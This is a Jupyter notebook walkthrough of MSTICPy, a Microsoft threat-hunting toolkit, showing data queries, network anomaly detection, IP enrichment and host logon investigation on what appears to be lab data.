![image](images/MSTIC.png)

# MSTICPy - Threat hunting toolkit for Jupyter Notebooks
### Ian Hellen, Principal Dev, in Microsoft Threat Intelligence Center (MSTIC)
### @ianhellen (twitter), ianhelle@microsoft.com


---

<h1 style="border: 1px solid;color: White; background-color: DarkSlateGray; padding: 10px">Part 1 - Overview of MSTICPy</h1>

- **Data & Queries** - Getting data into the notebook
- **A tale from a SOC (Security Operations Center)**<br>
  How MSTICPy might be used to help you analyze and visualize information<br>
  that you need to determine whether you're looking at benign or malicious activity.
  
  - Network anomalies
  - Enriching data - find out more about an IP Address
  - Investigate potentially compromised host
    - Summary/Logons/Processes and unusual logon sessions
    
---

<h2 style="color: White; background-color: DarkSlateBlue; padding: 10px">Get this notebook</h2>

## @ https://aka.ms/msticpy-launchspace - LearnTV-Msticpy.ipynb

---

<h3 style="color: White; background-color: DarkSlateGray; padding: 5px">Getting started - We need to intialize a few things</h3>


In [1]:
# pip install msticpy
# pip install msticnb

# Core MSTICPy initialization for Notebooks
from msticpy.nbtools import nbinit
nbinit.init_notebook(namespace=globals())


True

---

<h1 style="border: 1px solid;color: White; background-color: DarkSlateGray; padding: 10px">Queries and Data</h1>

---

## Getting to data may be a bit dull but it's the foundation of security hunting:
> “Without big data, you are blind and deaf and in the middle of a freeway.”
*Geoffrey Moore*

> “In God we trust, all others bring data.”
*W Edwards Deming*


<h2 style="color: White; background-color: DarkSlateBlue; padding: 10px">MSTICPy Data Providers</h2>

![image](images/DataLayer.png)

https://msticpy.readthedocs.io/en/latest/data_acquisition/DataProviders.html

- Usually come with pre-defined queries
- Azure Sentinel queries are most developed

### Importance of pre-built queries to help analysts!

In [2]:
from msticpy.data import QueryProvider
import pandas as pd

# Load query providers (typically you'll be using just one)
qry_prov_az = QueryProvider("AzureSentinel")
qry_prov_sp = QueryProvider("Splunk")
qry_prov_mde = QueryProvider("MDE")
# Special provider that uses local data files
qry_prov_loc = QueryProvider("LocalData", data_paths=["./data"], query_paths=["./data"])

Please wait. Loading Kqlmagic extension...


In [3]:
qry_prov_az.browse_queries()

In [4]:
qry_prov_loc.Network.get_network_summary().head()

,TimeGenerated,TotalBytesSent
0,2021-04-26 05:39:56.317964+00:00,10823
1,2021-04-26 06:39:56.317964+00:00,14821
2,2021-04-26 07:39:56.317964+00:00,13532
3,2021-04-26 08:39:56.317964+00:00,11947
4,2021-04-26 09:39:56.317964+00:00,11193


<h3 style="color: White; background-color: DarkOrange; padding: 5px">Most data providers need authentication</h3>


```python<
qry_prov.connect(connect_params....)
```

In [5]:
qry_prov_az.connect(WorkspaceConfig(workspace="CyberSecuritySoc"))

<h3 style="color: White; background-color: DarkOrange; padding: 5px">Most queries have mandatory parameters</h3>

In [6]:
qry_prov_loc.WindowsSecurity.list_host_processes()

Query:  list_host_processes
Data source:  LocalData
List processes on host

Parameters
----------
end: datetime (optional)
    Query start time
host_name: str
    Host name for lookup queries
start: datetime (optional)
    Query start time
    (default value is: -1)
Query:
processes_on_host_ud.pkl


ValueError: No values found for these parameters: ['host_name']

In [7]:
qry_prov_loc.WindowsSecurity.list_host_processes(host_name="MSTICAlertsWin1").head(3)

,TenantId,Account,EventID,TimeGenerated,Computer,SubjectUserSid,SubjectUserName,SubjectDomainName,SubjectLogonId,NewProcessId,NewProcessName,TokenElevationType,ProcessId,CommandLine,ParentProcessName,TargetLogonId,SourceComputerId,TimeCreatedUtc,index
0,52b1ab41-869e-4138-9e40-2a4457f09bf0,WORKGROUP\MSTICAlertsWin1$,4688,2021-04-28 03:27:04.819482+00:00,MSTICAlertsWin1,S-1-5-18,MSTICAlertsWin1$,WORKGROUP,0x3e7,0x13c,C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State\ICT 2\CMF-64\DesiredState...,%%1936,0x2360,"""C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State\ICT 2\CMF-64/DesiredStat...",C:\Program Files\Microsoft Monitoring Agent\Agent\MonitoringHost.exe,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-09 11:41:26.260,NaN
1,52b1ab41-869e-4138-9e40-2a4457f09bf0,WORKGROUP\MSTICAlertsWin1$,4688,2021-04-28 03:27:04.826482+00:00,MSTICAlertsWin1,S-1-5-18,MSTICAlertsWin1$,WORKGROUP,0x3e7,0x11a8,C:\Windows\System32\conhost.exe,%%1936,0x13c,\??\C:\Windows\system32\conhost.exe 0xffffffff -ForceV1,C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State\ICT 2\CMF-64\DesiredState...,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-09 11:41:26.267,NaN
2,52b1ab41-869e-4138-9e40-2a4457f09bf0,WORKGROUP\MSTICAlertsWin1$,4688,2021-04-28 03:27:58.822482+00:00,MSTICAlertsWin1,S-1-5-18,MSTICAlertsWin1$,WORKGROUP,0x3e7,0x1850,C:\Windows\System32\WerFault.exe,%%1936,0x13c,C:\Windows\system32\WerFault.exe -u -p 316 -s 3020,C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State\ICT 2\CMF-64\DesiredState...,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-09 11:42:20.263,NaN


<h3 style="color: White; background-color: DarkOrange; padding: 5px">Most queries require time parameters!</h3>

### ....datetime strings are a **pain** to type in and keep track of

### Fortunately there's an easier way to specify time parameters - `nbwidgets.QueryTime` class

In [8]:
timerange = nbwidgets.QueryTime(units="hour")
timerange

#### This is a live query against Azure Sentinel

In [9]:
qry_prov_az.WindowsSecurity.list_host_processes(timerange, host_name="VictimPC2").head(3)

,TenantId,Account,EventID,TimeGenerated,Computer,SubjectUserSid,SubjectUserName,SubjectDomainName,SubjectLogonId,NewProcessId,NewProcessName,TokenElevationType,ProcessId,CommandLine,ParentProcessName,TargetLogonId,SourceComputerId,TimeCreatedUtc
0,8ecf8077-cf51-4820-aadd-14040956f35d,WORKGROUP\VictimPC2$,4688,2021-05-20 20:02:22.003000+00:00,VictimPC2,S-1-5-18,VictimPC2$,WORKGROUP,0x3e7,0x3e58,C:\Windows\System32\cscript.exe,%%1936,0x66c,"""C:\WINDOWS\system32\cscript.exe"" /nologo ""MonitorKnowledgeDiscovery.vbs""",C:\Program Files\Microsoft Monitoring Agent\Agent\MonitoringHost.exe,0x0,0b31dee3-5401-43d7-802a-7c8aab820390,2021-05-20 20:02:22.003000+00:00
1,8ecf8077-cf51-4820-aadd-14040956f35d,WORKGROUP\VictimPC2$,4688,2021-05-20 20:02:22.010000+00:00,VictimPC2,S-1-5-18,VictimPC2$,WORKGROUP,0x3e7,0x4564,C:\Windows\System32\conhost.exe,%%1936,0x3e58,\??\C:\WINDOWS\system32\conhost.exe 0xffffffff -ForceV1,C:\Windows\System32\cscript.exe,0x0,0b31dee3-5401-43d7-802a-7c8aab820390,2021-05-20 20:02:22.010000+00:00
2,8ecf8077-cf51-4820-aadd-14040956f35d,WORKGROUP\VictimPC2$,4688,2021-05-20 20:01:44.320000+00:00,VictimPC2,S-1-5-18,VictimPC2$,WORKGROUP,0x3e7,0x4034,C:\Windows\System32\svchost.exe,%%1936,0x2e4,C:\WINDOWS\System32\svchost.exe -k netsvcs -p -s BITS,C:\Windows\System32\services.exe,0x0,0b31dee3-5401-43d7-802a-7c8aab820390,2021-05-20 20:01:44.320000+00:00


<br>
<h3 style="color: White; background-color: DarkSlateGray; padding: 5px">Extending built-in queries using the <i>add_query_items</i> parameter</h3>

In [10]:
qry_prov_az.WindowsSecurity.list_host_processes(
    timerange,
    host_name="VictimPC2",
    add_query_items="| where NewProcessName contains 'powershell'"
).head(3)

,TenantId,Account,EventID,TimeGenerated,Computer,SubjectUserSid,SubjectUserName,SubjectDomainName,SubjectLogonId,NewProcessId,NewProcessName,TokenElevationType,ProcessId,CommandLine,ParentProcessName,TargetLogonId,SourceComputerId,TimeCreatedUtc
0,8ecf8077-cf51-4820-aadd-14040956f35d,WORKGROUP\VictimPC2$,4688,2021-05-20 20:04:24.873000+00:00,VictimPC2,S-1-5-18,VictimPC2$,WORKGROUP,0x3e7,0x4c8,C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe,%%1936,0x32c,"""C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe"" ""-ExecutionPolicy"" ""Unrestricted"" ""-...",C:\Program Files\Microsoft Dependency Agent\bin\MicrosoftDependencyAgent.exe,0x0,0b31dee3-5401-43d7-802a-7c8aab820390,2021-05-20 20:04:24.873000+00:00
1,8ecf8077-cf51-4820-aadd-14040956f35d,WORKGROUP\VictimPC2$,4688,2021-05-20 15:44:24.777000+00:00,VictimPC2,S-1-5-18,VictimPC2$,WORKGROUP,0x3e7,0x3fa0,C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe,%%1936,0x32c,"""C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe"" ""-ExecutionPolicy"" ""Unrestricted"" ""-...",C:\Program Files\Microsoft Dependency Agent\bin\MicrosoftDependencyAgent.exe,0x0,0b31dee3-5401-43d7-802a-7c8aab820390,2021-05-20 15:44:24.777000+00:00
2,8ecf8077-cf51-4820-aadd-14040956f35d,WORKGROUP\VictimPC2$,4688,2021-05-20 15:49:24.773000+00:00,VictimPC2,S-1-5-18,VictimPC2$,WORKGROUP,0x3e7,0x2e34,C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe,%%1936,0x32c,"""C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe"" ""-ExecutionPolicy"" ""Unrestricted"" ""-...",C:\Program Files\Microsoft Dependency Agent\bin\MicrosoftDependencyAgent.exe,0x0,0b31dee3-5401-43d7-802a-7c8aab820390,2021-05-20 15:49:24.773000+00:00


<br>
<h3 style="color: White; background-color: DarkSlateGray; padding: 5px"><i>exec_query</i> is a pass-through for native queries</h3>

In [11]:
result = qry_prov_az.exec_query("SecurityEvent | take 1000 | summarize count() by Computer")
result.head(5)

,Computer,count_
0,SHIR-Hive,119
1,AdminPc.Contoso.Azure,7
2,SOC-FW-RDP,716
3,VictimPc.Contoso.Azure,45
4,AdminPc2.Contoso.Azure,8


<h3 style="color: White; background-color: DarkOrange; padding: 5px"><i>pandas DataFrames</i> are the lingua-franca of MSTICPy</h3>

In [12]:
type(result)

pandas.core.frame.DataFrame

<h2 style="color: White; background-color: DarkSlateBlue; padding: 10px">What if you don't have a suitable query provider? or even a data source?</h2>

## You can still use most of MSTICPy functionality if you can get your data in a DataFrame

- You can import from CSV, JSON and others to a DF
- Many SDKs (like pyspark) work directly in or can convert to a DataFrame
- Mordor ([https://github.com/OTRF/mordor](https://github.com/OTRF/mordor)) is a great place to get sample attack data

> <b>PS - if you have a data source that you want to use and code in Python
> it's easy to write a data provider.<br>
> Contribute the code as a MSTICPy data provider!!! We're happy to help</b>

In [13]:
df = pd.read_csv("data/ian_procs.csv", parse_dates=["TimeGenerated"])
df.head(3)

,Unnamed: 0,TenantId,Account,EventID,TimeGenerated,Computer,SubjectUserSid,SubjectUserName,SubjectDomainName,SubjectLogonId,NewProcessId,NewProcessName,TokenElevationType,ProcessId,CommandLine,ParentProcessName,TargetLogonId,SourceComputerId,TimeCreatedUtc
0,17484,52b1ab41-869e-4138-9e40-2a4457f09bf0,MSTICAlertsWin1\ian,4688,2019-02-12 22:33:28.013,MSTICAlertsWin1,S-1-5-21-996632719-2361334927-4038480536-1120,ian,MSTICAlertsWin1,0x5d5af2,0x3850,C:\Windows\System32\tasklist.exe,%%1938,0x17c4,tasklist,C:\Windows\System32\cmd.exe,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-12 22:33:28.013
1,17485,52b1ab41-869e-4138-9e40-2a4457f09bf0,MSTICAlertsWin1\ian,4688,2019-02-12 22:33:28.023,MSTICAlertsWin1,S-1-5-21-996632719-2361334927-4038480536-1120,ian,MSTICAlertsWin1,0x5d5af2,0xbc0,C:\Windows\System32\findstr.exe,%%1938,0x17c4,findstr 'cmd',C:\Windows\System32\cmd.exe,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-12 22:33:28.023
2,17486,52b1ab41-869e-4138-9e40-2a4457f09bf0,MSTICAlertsWin1\ian,4688,2019-02-12 22:33:34.633,MSTICAlertsWin1,S-1-5-21-996632719-2361334927-4038480536-1120,ian,MSTICAlertsWin1,0x5d5af2,0x33a8,C:\Windows\System32\tasklist.exe,%%1938,0x17c4,tasklist,C:\Windows\System32\cmd.exe,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-12 22:33:34.633


In [15]:
df.mp_timeline.plot(group_by="NewProcessName")

Loading BokehJS ...

Column(id='1484', ...)

---

<h1 style="border: 1px solid;color: White; background-color: DarkSlateGray; padding: 10px">A tale from the SOC (Security Operations Center)</h1>

This section shows how some of the MSTICPy functionality might be used in
a Security Operations Center context.

We'll look at:
- Finding a signal - an alert or anomaly
- Getting some contextual information on the actors/entities in that signal
- Investigating the target(s) of the attack

<h2 style="color: White; background-color: DarkSlateBlue; padding: 10px">Evidence of an attack? Anomalous network traffic</h2>

![image](images/Analysis.png)

<h3 style="color: White; background-color: DarkSlateGray; padding: 5px">Time Series Decomposition</h3>

- STL - Seasonal Trend Decomposition using Loess
- Loess (aka LOWESS) - Locally Weighted Scatterplot Smoothing

In [16]:
from msticpy.nbtools.timeseries import display_timeseries_anomolies
from msticpy.analysis.timeseries import ts_anomalies_stl

For unsummarized data use pandas to summarize by hour
```python
data = qry_prov_loc.Network.get_network_flows()
data = (
    data[["TimeGenerated", "TotalBytesSent"]]
    .set_index("TimeGenerated")
    .groupby(pd.Grouper(freq="1H"))
    .sum()
)
```

or summarize in your query
```python
qry_prov.exec_query("""
    FirewallLogs 
    | where TimeGenerated > ago(28d) 
    | summarize sum(TotalBytesSent) by bin(TimeGenerated, 1h)
"""
)
```

In [17]:
# Get the data
net_df = qry_prov_loc.Network.get_network_summary()
net_df = net_df.set_index("TimeGenerated")
net_df.head(3)


,TotalBytesSent
TimeGenerated,
2021-04-26 05:39:56.317964+00:00,10823
2021-04-26 06:39:56.317964+00:00,14821
2021-04-26 07:39:56.317964+00:00,13532


In [18]:
# Conduct our timeseries analysis
ts_analysis = ts_anomalies_stl(net_df)

# Visualize the timeseries and any anomalies
display_timeseries_anomolies(data=ts_analysis, y= 'TotalBytesSent');

Loading BokehJS ...

<h3 style="color: White; background-color: DarkSlateGray; padding: 5px">Zero in on the anomaly period</h3>

#### Use the anomaly period to filter our underlying data

In [19]:
from msticpy.analysis.timeseries import find_anomaly_periods
anom_times = find_anomaly_periods(ts_analysis)
anom_times

[TimeSpan(start=2021-04-30 22:00:00+00:00, end=2021-05-01 01:00:00+00:00, period=0 days 03:00:00)]

In [20]:
qry_prov_loc.Network.get_network_flows().head()

,TimeGenerated,DeviceVendor,DeviceProduct,DeviceAction,Action,SourceIP,SourcePort,DestinationIP,DestinationPort,TotalBytesSent,Direction
0,2021-04-30 22:58:08.362482+00:00,Palo Alto Networks,PAN-OS,allow,TRAFFIC,20.185.182.48,65214,38.75.137.9,443,347,outbound
1,2021-04-30 23:03:08.362482+00:00,Palo Alto Networks,PAN-OS,allow,TRAFFIC,20.185.182.48,65214,38.75.137.9,443,347,outbound
2,2021-04-30 23:08:08.362482+00:00,Palo Alto Networks,PAN-OS,allow,TRAFFIC,20.185.182.48,51511,38.75.137.9,443,347,outbound
3,2021-04-30 23:13:08.362482+00:00,Palo Alto Networks,PAN-OS,allow,TRAFFIC,20.185.182.48,51511,38.75.137.9,443,347,outbound
4,2021-04-30 23:18:08.362482+00:00,Palo Alto Networks,PAN-OS,allow,TRAFFIC,20.185.182.48,46686,38.75.137.9,443,347,outbound


,,TotalBytesSent
SourceIP,DestinationIP,
20.185.182.48,38.75.137.9,8328




In [21]:
# Use the anomaly period to provide the "start" and "end" params of our query
ts_df = qry_prov_loc.Network.get_network_flows(anom_times[0])

# Summarize the traffic counts grouped by Source/Dest IP Address
noisy_ips = ts_df.groupby(["SourceIP", "DestinationIP"]).agg({"TotalBytesSent": "sum"})

# Plot this data and pull out the top offender
noisy_ips.plot.barh(figsize=(8, 6))
display(noisy_ips.sort_values("TotalBytesSent", ascending=False).head(1))

---

<h2 style="color: White; background-color: DarkSlateBlue; padding: 10px">Enrichment Functions - getting to know your subject</h2>


![image](images/enrichment.png)

### Enrich with what? how?

We want to find more information about this IP Address

<h3 style="color: White; background-color: DarkOrange; padding: 5px">Introducing Entities</h3>

#### Entities are simple classes that represent "real-world" Cyber objects like accounts and IP addresses


In [22]:
# Import and initialize dynamic pivot functions - more later
from msticpy.datamodel.pivot import Pivot
from msticpy.datamodel import entities


md(f"Some Entities:", "bold, large")
md(f"{', '.join(dir(entities)[:25])} ...", "large")

entities.IpAddress(Address="38.75.137.9")

IpAddress(Address=38.75.137.9, Type=ipaddress)

<h3 style="color: White; background-color: DarkOrange; padding: 5px">Also introducing Pivot functions</h3>

![image](images/Interface.png)

Pivot functions are methods of entities that provide:
- data queries related to an entity
- enrichment functions relevant to that entity

Pivot functions are dynamically attached to entities. We created this
framework to make it easier to find which functions you can use for which entity type.

### Motivation
- We had built a lot of functionality in MSTICPy for querying and enrichment
- A lot of the functions had inconsistent type/parameter signatures
- There was no easy discovery mechanism for these functions - you had to know
- Using entities as pivot points is a "natural" investigation pattern

In [24]:
pivot = Pivot(namespace=globals())

pivot.browse()

Using Open PageRank. See https://www.domcop.com/openpagerank/what-is-openpagerank


### Pivot functions are flexible - can take input as strings, lists or dataframes

In [25]:
IpAddress = entities.IpAddress

IpAddress.whois("38.75.137.9")

,asn,asn_cidr,asn_country_code,asn_date,asn_description,asn_registry,nets,nir,query,raw,raw_referral,referral
0,63023,38.75.136.0/23,US,1991-04-16,"AS-GLOBALTELEHOST, US",arin,"[{'cidr': '38.0.0.0/8', 'name': 'COGENT-A', 'handle': 'NET-38-0-0-0-1', 'range': '38.0.0.0 - 38....",None,38.75.137.9,None,None,None


#### Find whois info for all of the IPs in the data set

In [26]:
invest_ips = noisy_ips.reset_index()
IpAddress.whois(invest_ips, column="DestinationIP")

,nir,asn_registry,asn,asn_cidr,asn_country_code,asn_date,asn_description,query,nets,raw,referral,raw_referral
0,None,arin,8075,40.124.0.0/16,US,2015-02-23,"MICROSOFT-CORP-MSN-AS-BLOCK, US",40.124.45.19,"[{'cidr': '40.76.0.0/14, 40.120.0.0/14, 40.80.0.0/12, 40.124.0.0/16, 40.74.0.0/15, 40.125.0.0/17...",None,None,None
1,None,arin,8075,40.124.0.0/16,US,2015-02-23,"MICROSOFT-CORP-MSN-AS-BLOCK, US",40.124.45.19,"[{'cidr': '40.76.0.0/14, 40.120.0.0/14, 40.80.0.0/12, 40.124.0.0/16, 40.74.0.0/15, 40.125.0.0/17...",None,None,None
2,None,arin,8075,13.64.0.0/11,US,2015-03-26,"MICROSOFT-CORP-MSN-AS-BLOCK, US",13.71.172.130,"[{'cidr': '13.104.0.0/14, 13.64.0.0/11, 13.96.0.0/13', 'name': 'MSFT', 'handle': 'NET-13-64-0-0-...",None,None,None
3,None,arin,8075,40.76.0.0/14,US,2015-02-23,"MICROSOFT-CORP-MSN-AS-BLOCK, US",40.77.232.95,"[{'cidr': '40.80.0.0/12, 40.76.0.0/14, 40.96.0.0/12, 40.74.0.0/15, 40.125.0.0/17, 40.124.0.0/16,...",None,None,None
4,None,arin,8075,13.64.0.0/11,US,2015-03-26,"MICROSOFT-CORP-MSN-AS-BLOCK, US",13.71.172.130,"[{'cidr': '13.104.0.0/14, 13.64.0.0/11, 13.96.0.0/13', 'name': 'MSFT', 'handle': 'NET-13-64-0-0-...",None,None,None
5,None,arin,8075,65.52.0.0/14,US,2001-02-14,"MICROSOFT-CORP-MSN-AS-BLOCK, US",65.55.44.109,"[{'cidr': '65.52.0.0/14', 'name': 'MICROSOFT-1BLK', 'handle': 'NET-65-52-0-0-1', 'range': '65.52...",None,None,None
6,None,arin,8075,104.40.0.0/13,US,2014-05-07,"MICROSOFT-CORP-MSN-AS-BLOCK, US",104.43.212.12,"[{'cidr': '104.40.0.0/13', 'name': 'MSFT', 'handle': 'NET-104-40-0-0-1', 'range': '104.40.0.0 - ...",None,None,None
7,None,arin,8075,104.40.0.0/13,US,2014-05-07,"MICROSOFT-CORP-MSN-AS-BLOCK, US",104.43.212.12,"[{'cidr': '104.40.0.0/13', 'name': 'MSFT', 'handle': 'NET-104-40-0-0-1', 'range': '104.40.0.0 - ...",None,None,None
8,None,arin,63023,38.75.136.0/23,US,1991-04-16,"AS-GLOBALTELEHOST, US",38.75.137.9,"[{'cidr': '38.0.0.0/8', 'name': 'COGENT-A', 'handle': 'NET-38-0-0-0-1', 'range': '38.0.0.0 - 38....",None,None,None


In [27]:
IpAddress.whois(invest_ips, column="SourceIP", join="left")

,SourceIP,DestinationIP,TotalBytesSent,nir,asn_registry,asn,asn_cidr,asn_country_code,asn_date,asn_description,query,nets,raw,referral,raw_referral
0,10.0.3.5,40.124.45.19,621,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN
1,10.16.12.1,40.124.45.19,1004,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN
2,10.4.5.12,13.71.172.130,247,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN
3,10.4.5.12,40.77.232.95,189,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN
4,10.4.5.16,13.71.172.130,46,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN
5,10.4.5.16,65.55.44.109,120,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN
6,10.90.78.142,104.43.212.12,12,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN
7,10.90.78.71,104.43.212.12,4,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN
8,20.185.182.48,38.75.137.9,8328,NaN,arin,8075,20.184.0.0/13,US,2017-02-22,"MICROSOFT-CORP-MSN-AS-BLOCK, US",20.185.182.48,"[{'cidr': '20.184.0.0/13, 20.180.0.0/14', 'name': 'MSFT', 'handle': 'NET-20-180-0-0-1', 'range':...",NaN,NaN,NaN


#### also geolocation data

In [28]:
from msticpy.datamodel.entities import IpAddress

destip = IpAddress(Address="38.75.137.9")

destip.geoloc()
destip.Location = entities.GeoLocation(destip.geoloc().iloc[0])
display(destip)

IpAddress(Address=38.75.137.9, Location={ 'AdditionalData': {},
  'City': 'Los Angeles',
 ...)

In [29]:
# Create a map
folium = FoliumMap(zoom_start=10)

# Get all of the IPs from our data set and make them into GeoLocation objects
dest_ip_locs = IpAddress.geoloc(data=invest_ips, column="DestinationIP").apply(entities.GeoLocation, axis=1)

# Add our suspect IP and center around that
folium.add_ip_cluster([destip], color="red")
folium.center_map()
# Add the rest of the IPs
folium.add_geoloc_cluster(dest_ip_locs.values, color="blue")
folium.add_ip_cluster([destip], color="red")

folium

<h3 style="color: White; background-color: DarkSlateGray; padding: 5px">Applying some (threat) intelligence to the problem</h3>

### What are Threat Intelligence providers?

#### Threat Intel definition (Courtesy Crowdstrike)
> Threat intelligence is data that is collected, processed, and analyzed to understand a threat<br>
> actor’s motives, targets, and attack behaviors. Threat intelligence enables us to make faster,<br>
> more informed, data-backed security decisions and change their behavior from reactive to<br>
> proactive in the fight against threat actors.

A number of companies make Threat Intel (TI) data available via public or paid APIs:
- VirusTotal
- AlienVault OTX
- IBM XForce
- and many others

In [30]:
ti_results = destip.tilookup_ipv4()
TILookup.browse_results(ti_results)

<h3 style="color: White; background-color: DarkSlateGray; padding: 5px">Side note: we have an app for this last section - see Notebooklets below</h3>

```python
ip_result = IpAddress.nblt.ip_address_summary(destip, timespan=timerange)
```

---

<h2 style="color: White; background-color: DarkSlateBlue; padding: 10px">Let's look at what happened on the host...the other end of the communication</h2>

<h3 style="color: White; background-color: DarkSlateGray; padding: 5px">Introducing "notebooklets" - macros for CyberSec</h3>

![image](images/Interface.png)

We built notebooklets because life is too short keep writing (copy/pasting) the same code over and over again.

Notebooklets package multiple notebook cells for common investigation routines into simple functions

<h3 style="color: White; background-color: DarkOrange; padding: 5px">Compare lines of code in the following section to output!</h3>

In [31]:
# Import and initialize MSTIC Notebooklets - companion package
# more later
import msticnb as nb
nb.init(query_provider=qry_prov_az)
# qry_prov_az.connect(WorkspaceConfig(workspace="CyberSecuritySoc"))

nb.browse()

Notebooklets: 9 notebooklets loaded.
Using Open PageRank. See https://www.domcop.com/openpagerank/what-is-openpagerank
Notebooklets: Loaded providers: AzureSentinel, geolitelookup, tilookup


In [33]:
host_time = nbwidgets.QueryTime(timespan=anom_times[0], units="day")
host_time

In [34]:
host_summary = nb.nblts.azsent.host.HostSummary()

host_summary_rslt = host_summary.run(value="victimpc", timespan=host_time, options=["-bookmarks"])

Unique host found: VictimPc.Contoso.Azure


Attempting to sign-in with environment variable credentials...
Attempting to sign-in with environment variable credentials...


{ 'AdditionalData': {},
  'AgentId': 'f6638b82-98a5-4542-8bec-6bc0977f793f',
  'AzureDetails': { 'ResourceDetails': { 'Admin User': 'ContosoAdmin',
                                         'Azure Location': 'eastus',
                                         'Disks': [],
                                         'Image': 'Windows-10 19h2-ent',
                                         'Network Interfaces': [ '/subscriptions/d1d8779d-38d7-4f06-91db-9cbc8de0176f/resourceGroups/DefendTheFlag/providers/Microsoft.Network/networkInterfaces/Nic1'],
                                         'Tags': 'None',
                                         'VM Size': 'Standard_A2_v2'},
                    'ResourceGroup': 'DefendTheFlag',
                    'ResourceId': '/subscriptions/d1d8779d-38d7-4f06-91db-9cbc8de0176f/resourceGroups/DefendTheFlag/providers/Microsoft.Compute/virtualMachines/VictimPc',
                    'ResourceProvider': 'Microsoft.Compute',
                    'ResourceType': 'virt

Loading BokehJS ...

In [35]:
host_summary_rslt.browse_alerts()

,0
TenantId,8ecf8077-cf51-4820-aadd-14040956f35d
TimeGenerated,2021-04-28 05:16:22.868000+00:00
AlertDisplayName,ayoki_Powershell
AlertName,ayoki_Powershell
Severity,Medium
Description,
ProviderName,ASI Scheduled Alerts
VendorName,Microsoft
VendorOriginalId,d2a9f48b-e655-47f7-b536-8ae48e2299e5
SystemAlertId,59dc1911-1c01-1fa8-93f2-a9bc8da9f613


<h3 style="color: White; background-color: DarkSlateGray; padding: 5px">Who logged on to this host?</h3> 

In [36]:
host_logons = nb.nblts.azsent.host.HostLogonsSummary()
host_logons_rslt = host_logons.run(value="victimpc", timespan=host_time)

Unique host found: VictimPc.Contoso.Azure
Performing analytics and generating visualizations


Loading BokehJS ...

Loading BokehJS ...

,TenantId,Account,EventID,TimeGenerated,SourceComputerId,Computer,SubjectUserName,SubjectDomainName,SubjectUserSid,TargetUserName,TargetDomainName,TargetUserSid,TargetLogonId,LogonProcessName,LogonType,LogonTypeName,AuthenticationPackageName,Status,IpAddress,WorkstationName,TimeCreatedUtc,LogonResult,SourceIP
0,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-05-04 00:20:00.440000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x92f265e5,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-05-04 00:20:00.440000+00:00,Success,-
5,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-05-03 23:50:00.373000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x928aec90,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-05-03 23:50:00.373000+00:00,Success,-
6,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-05-04 00:00:00.427000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x92ad4fa2,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-05-04 00:00:00.427000+00:00,Success,-
7,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-05-04 00:10:00.530000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x92cf981b,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-05-04 00:10:00.530000+00:00,Success,-
